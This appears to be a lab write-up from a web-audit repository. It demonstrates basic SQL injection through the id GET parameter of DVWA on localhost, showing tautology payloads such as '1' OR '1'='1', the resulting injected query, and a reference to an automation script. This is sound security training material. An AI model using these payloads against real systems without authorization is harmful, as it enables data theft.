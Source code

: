 # 🛡️ Basic SQL Injection on ID Field (GET Request)

## 1. Objective

Perform a **basic SQL Injection** by manipulating a GET parameter (`id`) to retrieve information from the database without proper authorization.

---

## 2. Target

Target URL example:

```plaintext
http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit
```

---

## 3. Manual Injection Example

Try injecting payloads such as:

```plaintext
1' OR '1'='1
```

or:

```plaintext
2' OR 1=1#
```

Result:

- The SQL query becomes **always true** (`WHERE id = '1' OR '1'='1'`), so the application displays **all users** or **unintended information**.

---

### 🖼️ Example Screenshot

Example result after successful basic SQL Injection:

```markdown
![SQL Injection Result Example](../images/sqli_basic_id_injection_result.png)
```

Make sure you put the image inside:

```plaintext
audit-web/sql_injection/images/sqli_basic_id_injection_result.png
```

---

## 4. Internal Behavior (SQL Query)

Normal query:

```sql
SELECT first_name, last_name FROM users WHERE id = '1';
```

Injected query:

```sql
SELECT first_name, last_name FROM users WHERE id = '1' OR '1'='1';
```

Explanation:

- The condition is **always true**.
- The application **leaks more information** than intended.

---

## 5. Python Script to Automate the Test

We created a Python script that:

- Sends multiple payloads into the `id` parameter.
- Detects different responses based on the page content (e.g., keyword detection).

Script location:

```plaintext
audit-web/sql_injection/scripts/test_basic_sqli_id.py
```

The script uses:

- `requests`
- `BeautifulSoup` (optional)

Purpose:

- Quickly test several SQL payloads.
- Identify vulnerable behaviors automatically.





